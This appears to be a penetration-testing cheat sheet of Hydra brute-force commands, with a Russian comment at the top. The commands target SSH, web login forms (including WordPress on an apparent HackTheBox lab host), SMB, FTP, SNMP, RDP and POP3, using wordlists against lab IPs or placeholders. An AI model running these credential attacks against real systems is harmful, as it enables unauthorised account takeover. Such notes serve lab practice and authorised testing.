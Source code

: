     брутит пароль по словарю пользователя leo на ssh  
  
hydra -l leo -P words 192.168.1.39 ssh  
  
  
hydra 10.10.10.43 -l username -P /pwdlist.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:The password you entered "  
^PHPLiteSQL  
  
hydra -l username -P /pwdlist.txt apocalyst.htb http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fapocalyst.htb%2Fwp-admin%2F&testcookie=1:is incorrect"  
^WordPress  
  
# hydra: bruteforce smb login   
hydra -L users.txt -P passwords.txt -e nsr smb://targetIp  
  
# hydra: bruteforce ssh login (-V, -v verbose)  
hydra -l root -P passwordlist ssh://ipv4Address -V  
  
# hydra: bruteforce ftp login  
hydra -t 5 -V -f -C /tmp/wordlist ftp://targetIp  
  
# hydra: bruteforce SNMP  
hydra -P password-file.txt -v ipv4Address snmp  
  
# hydra: bruteforce Windows Remote Desktop  
hydra -t 1 -V -f -l administrator -P /path/to/wordlist.txt rdp://ipv4Address  
  
# hydra: bruteforce POP3  
hydra -l userName -P /path/to/wordlist -f ipv4Address pop3 -V
